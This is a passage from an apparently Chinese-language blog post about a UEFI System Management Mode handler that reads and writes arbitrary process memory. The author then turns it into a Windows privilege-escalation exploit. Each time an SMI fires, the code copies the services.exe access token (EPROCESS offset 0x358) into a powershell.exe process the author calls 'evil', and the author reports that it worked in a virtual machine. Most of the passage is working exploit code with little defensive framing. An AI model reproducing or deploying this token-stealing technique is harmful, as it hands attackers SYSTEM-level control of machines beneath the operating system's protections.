 ```
                WriteVirtual(section + SMI_COUNT_OFFSET, GetProcessCr3(cprocess), (UINT8*)&SmiCountIndex, 8);
                //*(UINT64*)(TranslateVirtualToPhysical(GetProcessCr3(cprocess), section + SMI_COUNT_OFFSET)) = SmiCountIndex;

                ReadVirtual(tbase + protocol.offset, GetProcessCr3(tprocess), protocol.read_buffer, protocol.read_size);

                // Section starts at new frame and struct is not bigger then a page size. So we can get away with only translating one time
                //UINT64 temp = TranslateVirtualToPhysical(GetProcessCr3(cprocess), section + READ_BUFFER_OFFSET);
                WriteVirtual(section + READ_BUFFER_OFFSET, GetProcessCr3(cprocess), protocol.read_buffer, protocol.read_size);

                //for (UINT64 i = 0; i < protocol.read_size; i++)
                //{
                //    *(UINT8*)(temp + i) = protocol.read_buffer[i];
                //}
            }
        }
    }
    return EFI_SUCCESS;

```  
  
根据调试结果,我猜测是我把名字改了导致的,之前没看到比较鲁莽的冲了:  
```
UINT64 base = GetBaseAddressModuleX64(cprocess, (unsigned short*)L"SmiUM.exe");

```  
  
在虚拟机里面复现是成功的,能读到cmd.exe的内存:![](https://mmbiz.qpic.cn/sz_mmbiz_png/ejibWMxI7nWIGicZtJ4IhicmBwoKnSibeg3Qch091UuegMPYCIc1C124dzj9Q9rPx95fktDHQfxKtILwaPmUokQjyw/640?wx_fmt=png&from=appmsg "")  
但是我也不会刷到bios里面了,这玩意代码太烂,容易出问题。  
### 修改简单一点  
  
这代码太鲁莽了,不适合我们精简的需求,让我们改改,改成一旦有SMI中断,直接把我们的目标进程改成提权.原理非常简单,触发了SMI中断后,我们读services.exe的进程的eprocess->token(在win10 1803是0x358便宜i)然后复制到我们邪恶的提权程序里面  
```
        UINT64 ntBase;
        auto status = MemGetKernelBase(&ntBase);
        printf("KernelCr3: %p ntBase: %p \n", KernelCr3, ntBase);
        SetupWindows();
        auto TargetEvilEprocess = GetEProcess("powershell.exe");
        auto TargetCopyEprocess = GetEProcess("services.exe");

        printf("TargetCopyEprocess: %p TargetEvilEprocess: %p \n", TargetCopyEprocess, TargetEvilEprocess);
        UINT64 copyToken = 0, myToken = 0;
        ReadVirtual(TargetCopyEprocess + 0x358, KernelCr3, (UINT8*)©Token, 8);
        ReadVirtual(TargetEvilEprocess + 0x358, KernelCr3, (UINT8*)&myToken, 8);
        printf("copyToken: %p myToken: %p TargetEvilEprocess: %p \n", copyToken, myToken, TargetEvilEprocess);
        WriteVirtual(TargetEvilEprocess + 0x358, KernelCr3, (UINT8*)©Token, 8);

```  
  